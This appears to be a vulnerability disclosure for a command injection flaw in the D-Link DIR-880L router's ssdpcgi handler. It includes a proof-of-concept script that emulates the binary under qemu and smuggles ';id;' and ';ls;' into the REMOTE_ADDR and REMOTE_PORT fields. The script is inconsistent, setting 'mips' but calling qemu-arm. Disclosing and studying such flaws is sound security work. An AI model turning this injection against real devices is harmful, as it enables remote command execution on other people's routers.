




# Information


**Vendor of the products:**   D-Link

**Vendor's website:** [D-Link | Welcome](https://www.dlink.com.cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** DIR-880L

**Affected firmware version:** <=104WWb01

**Firmware download address:** https://www.dlink.com.cn/techsupport/download.ashx?file=2811

# Overview

D-Link router DIR-880L 104WWb01 version has a serious command injection vulnerability. An attacker can set the request header through the path /htdocs/ssdpcgi and inject commands through the function sub_16570() to achieve remote command execution and even cause serious consequences. An attacker can use this vulnerability to execute arbitrary code by sending a specially constructed payload to port 49152.

# Vulnerability details

Attackers can control fields such as HTTP_ST, REMOTE_ADDR, REMOTE_PORT, SERVER_ID to implement command splicing



There is a command execution here



# POC

```py
from gt import *
con("mips")
post_content = "ddddd"
io = process(b"""
    qemu-arm -L ./ \
    -0 "ssdpcgi" \
    -E REQUEST_METHOD="POST" \
    -E SERVER_ID="cmd#cmdd" \
    -E CONTENT_TYPE="text/xml" \
    -E REQUEST_URI="aaa?service=" \
    -E REMOTE_ADDR=";id;" \
    -E CONTENT_LENGTH=5 \
    -E HTTP_ST="ssdp:all"  \
    -E REMOTE_PORT=";ls;"  \
    -g 1234 ./htdocs/cgibin
""", shell = True)
io.send(post_content)

io.interactive()
```



